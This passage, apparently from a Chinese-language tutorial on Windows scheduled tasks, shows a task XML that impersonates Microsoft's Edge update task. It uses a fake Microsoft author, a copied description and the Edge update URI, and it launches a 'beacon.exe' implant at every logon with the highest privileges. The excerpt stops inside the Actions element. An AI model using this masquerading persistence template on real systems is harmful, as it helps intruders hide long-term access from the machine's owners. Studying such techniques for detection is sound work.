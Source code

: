 -   [Actions](https://learn.microsoft.com/en-us/windows/win32/taskschd/taskschedulerschema-actions-tasktype-element)，要执行的操作
    
    -   Exec
        -   Command
        -   Arguments
    
    ![任务计划执行的操作.png](assets/1708583418-5a2823b5e33aae401b57663dd658edeb.png)
    

了解这些标签的含义后，对上面内容做了小小修改，伪装成正常任务。

```xml
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2"
    xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
    <RegistrationInfo>
        <Author>Microsoft Corporation</Author>
        <Description>使你的 Microsoft 软件保持最新状态。如果此任务已禁用或停止，则 Microsoft 软件将无法保持最新状态，这意味 着无法修复可能产生的安全漏洞，并且功能也可能无法使用。如果没有 Microsoft 软件使用此任务，则此任务将自行卸载。</Description>
        <URI>\MicrosoftEdgeUpdateTaskMachineRelease</URI>
    </RegistrationInfo>
    <Principals>
        <Principal id="Author">
            <UserId>S-1-5-21-2973696153-3313763339-1684698060-1001</UserId>
            <LogonType>InteractiveToken</LogonType>
            <RunLevel>HighestAvailable</RunLevel>
        </Principal>
    </Principals>
    <Settings>
        <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
        <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
        <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
        <IdleSettings>
            <StopOnIdleEnd>true</StopOnIdleEnd>
            <RestartOnIdle>false</RestartOnIdle>
        </IdleSettings>
    </Settings>
    <Triggers>
        <LogonTrigger>
            <StartBoundary>2023-04-26T16:56:00</StartBoundary>
        </LogonTrigger>
    </Triggers>
    <Actions Context="Author">
        <Exec>
            <Command>C:\Users\123\Desktop\beacon.exe</Command>
```
